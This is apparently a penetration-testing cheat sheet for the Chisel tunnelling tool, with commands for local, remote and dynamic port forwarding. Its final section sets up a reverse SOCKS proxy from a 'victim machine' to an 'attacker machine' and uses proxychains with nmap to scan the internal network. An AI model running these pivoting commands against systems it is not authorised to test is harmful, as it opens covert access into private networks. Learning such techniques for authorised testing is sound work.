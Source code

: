 **Chisel** is a TCP/UDP tunnel over HTTP that enables secure port forwarding, often used in penetration testing to bypass firewalls and NAT.

- You can download the Chisel last releases here: [link](https://github.com/jpillora/chisel/releases)
- Good explanation of how to use it: [explanation](https://deephacking.tech/pivoting-con-chisel/)

## Local Port Forwarding

Allows forwarding traffic from a local port to a specific port on the target machine through the Chisel server.

**Target machine**
```bash
./chisel server -p <port>
```
**Local machine**
```bash
chisel client <chisel server address>:<chisel server port> <local port to open>:<address to point to>:<port to point to on the target address>
```

## Remote Port Forwarding 

Allows opening a port on the **target machine** (via the Chisel client) that points to a service on the **local machine**.

**Local machine**
```bash
chisel server -p 9999 --reverse
```
**Target machine**
```bash
./chisel client <local_machine_ip>:<local_listener_port> R:<remote_port_to_open>:127.0.0.1:<target_machine_port_to_open>
```

## Dynamic Port Forwarding
Creates a local SOCKS proxy that dynamically forwards traffic to any destination through the Chisel server.

```bash
./chisel client <server_ip>:<port> dynamic :<local_port>
```


## SOCKS Proxy in Reverse Mode

The following command creates a **proxy SOCKS on the Chisel server**, routing traffic through the client (victim machine). This sets up a SOCKS proxy on the **Chisel server**, which routes traffic from the server through the client. It is particularly useful when the server (attacker) needs access to the client’s internal network or services.

- **Server (Attacker Machine):** Ensure the server is running in reverse mode:
```
./chisel server -p 9999 --reverse
```
- **Client (Victim Machine):** Execute the following command on the client.    
```
./chisel client <server_ip>:<server_port> R:socks
```
- **Use ProxyChains with a tool**. Now you can use `proxychains` to route the traffic of any command through that proxy SOCKS.
```
proxychains nmap -sT -p 80,443 <target_ip>
```
